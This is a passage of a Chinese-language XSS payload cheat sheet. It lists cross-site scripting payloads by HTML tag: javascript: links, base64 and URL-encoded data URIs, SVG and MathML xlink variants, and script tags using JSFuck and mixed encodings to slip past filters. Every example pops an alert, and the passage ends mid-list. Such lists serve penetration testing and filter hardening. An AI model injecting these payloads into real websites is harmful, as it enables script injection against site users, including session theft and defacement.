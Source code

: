 



## 0x01 具体标签的Payload

1. a标签

   - javascript伪协议：

     ```html
     <a href=javascript:alert(2)>
     ```

   - data协议执行javascript：

     ```Html
     <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>
     ```

   ​

   - urlencode版本：

     ```html
     <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>
     ```

   - 不使用href的另外一种组合来执行js：

     ```html
     <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg> 
     ```

     或者：

     ```html
     <math><a xlink:href=javascript:alert(1)></math>
     ```

2. script标签

   - 最简单的测试payload：

     ```html
     <script>alert(1)</script>
     ```

   - jsfuck版本：

     ```html
     <script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>
     ```

     [jsfuck](http://www.jsfuck.com/)

   - 各种编码版本：

     ```html
     <script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>
